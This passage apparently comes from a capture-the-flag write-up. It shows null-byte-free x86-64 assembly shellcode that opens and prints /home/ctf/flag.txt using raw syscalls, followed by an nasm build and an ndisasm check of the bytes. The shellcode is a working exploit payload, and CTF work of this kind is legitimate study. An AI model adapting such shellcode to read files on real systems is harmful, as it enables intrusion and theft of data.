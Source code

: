 ```

  <span class="Comment">; File handle to write to = stdout = 1</span>
  <span class="Identifier">xor</span> <span class="Identifier">rdi</span>, <span class="Identifier">rdi</span>
  <span class="Identifier">inc</span> <span class="Identifier">rdi</span>

  <span class="Comment">; (rsi is already the buffer)</span>

  <span class="Comment">; rdx is the count again</span>
  <span class="Identifier">xor</span> <span class="Identifier">rdx</span>, <span class="Identifier">rdx</span>
  <span class="Identifier">mov</span> <span class="Identifier">dl</span>, <span class="Number">30</span>

  <span class="Comment">; Perform the sys_write syscall, writing the data to stdout</span>
  <span class="Identifier">syscall</span>

<span class="Comment">;;; EXIT</span>
  <span class="Comment">; Syscall 60 = exit</span>
  <span class="Identifier">xor</span> <span class="Identifier">rax</span>, <span class="Identifier">rax</span>
  <span class="Identifier">mov</span> <span class="Identifier">al</span>, <span class="Number">60</span>

  <span class="Comment">; Exit with code 0</span>
  <span class="Identifier">xor</span> <span class="Identifier">rdi</span>, <span class="Identifier">rdi</span>

  <span class="Comment">; Perform an exit</span>
  <span class="Identifier">syscall</span>

<span class="Identifier">getfilename_bottom</span>:
  <span class="Identifier">call</span> <span class="Identifier">getfilename_top</span>

  <span class="Identifier">db</span> "/<span class="Identifier">home</span>/<span class="Identifier">ctf</span>/<span class="Identifier">flag</span><span class="Statement">.txt</span>" <span class="Comment">; The literal flag, fortunately the buffer itself is null-filled so we don't need to null terminate</span>
```

Let's build, then verify there are no NULL bytes:

```
$ nasm -o solution2.bin solution2./asm
$ ndisasm -b64 solution2.bin
00000000  4831C0            xor rax,rax
00000003  B002              mov al,0x2
00000005  EB34              jmp short 0x3b
00000007  5F                pop rdi
00000008  4831F6            xor rsi,rsi
0000000B  4831D2            xor rdx,rdx
0000000E  0F05              syscall
00000010  57                push rdi
00000011  50                push rax
00000012  4831C0            xor rax,rax
00000015  5F                pop rdi
00000016  5E                pop rsi
00000017  4831D2            xor rdx,rdx
0000001A  B21E              mov dl,0x1e
0000001C  0F05              syscall
0000001E  4831C0            xor rax,rax
00000021  48FFC0            inc rax
00000024  4831FF            xor rdi,rdi
00000027  48FFC7            inc rdi
```